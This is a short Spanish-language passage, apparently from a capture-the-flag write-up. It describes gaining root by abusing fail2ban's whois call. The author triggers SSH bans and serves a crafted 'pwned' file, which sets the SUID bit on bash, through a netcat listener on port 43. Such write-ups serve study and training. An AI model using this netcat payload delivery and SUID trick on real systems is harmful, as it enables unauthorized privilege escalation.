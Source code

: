 Haremos para banearnos intentos de ssh varias veces hasta que nos banee

Nos ponemos en escucha por el puerto 43 como antes pero le pasamos el arhivo pwned que es el que hemos hecho con los permisos u+s a bin/bash

```bash
nc -nlvp 43 < pwned
```

![](2022-06-21-10-44-38.png)


Después de varios intentos de entrar por ssh cualquiera a la máquina, parece que recibimos una petición. En esta supuestamente le hemos inyectado el pwned y fail2ban ha cogido y ejecutado whois que en este caso tiene el chmod para darnos permisos.

En principio debemos de estar baneados, nos conectamos por ssh como jennifer

![](2022-06-21-10-49-25.png)

Vemos que ya somos root

![](2022-06-21-10-49-53.png)